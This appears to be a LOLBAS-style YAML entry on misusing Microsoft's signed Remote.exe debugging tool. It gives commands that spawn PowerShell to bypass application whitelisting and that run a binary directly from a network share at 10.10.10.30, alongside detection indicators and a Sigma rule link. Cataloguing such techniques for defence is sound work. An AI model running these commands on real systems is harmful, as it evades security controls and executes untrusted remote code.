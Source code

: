 ```yaml
---
Name: Remote.exe
Description: Debugging tool included with Windows Debugging Tools
Author: mr.d0x
Created: 2021-06-01
Commands:
  - Command: Remote.exe /s "powershell.exe" anythinghere
    Description: Spawns powershell as a child process of remote.exe
    Usecase: Executes a process under a trusted Microsoft signed binary
    Category: AWL Bypass
    Privileges: User
    MitreID: T1127
    OperatingSystem: Windows
  - Command: Remote.exe /s "powershell.exe" anythinghere
    Description: Spawns powershell as a child process of remote.exe
    Usecase: Executes a process under a trusted Microsoft signed binary
    Category: Execute
    Privileges: User
    MitreID: T1127
    OperatingSystem: Windows
  - Command: Remote.exe /s "\\10.10.10.30\binaries\file.exe" anythinghere
    Description: Run a remote file
    Usecase: Executing a remote binary without saving file to disk
    Category: Execute
    Privileges: User
    MitreID: T1127
    OperatingSystem: Windows
Full_Path:
  - Path: C:\Program Files (x86)\Windows Kits\10\Debuggers\x64\remote.exe
  - Path: C:\Program Files (x86)\Windows Kits\10\Debuggers\x86\remote.exe
Code_Sample:
  - Code:
Detection:
  - IOC: remote.exe process spawns
  - Sigma: https://github.com/SigmaHQ/sigma/blob/197615345b927682ab7ad7fa3c5f5bb2ed911eed/rules/windows/process_creation/proc_creation_win_lolbin_remote.yml
Resources:
  - Link: https://blog.thecybersecuritytutor.com/Exeuction-AWL-Bypass-Remote-exe-LOLBin/
Acknowledgement:
  - Person: mr.d0x
    Handle: '@mrd0x'
---
```

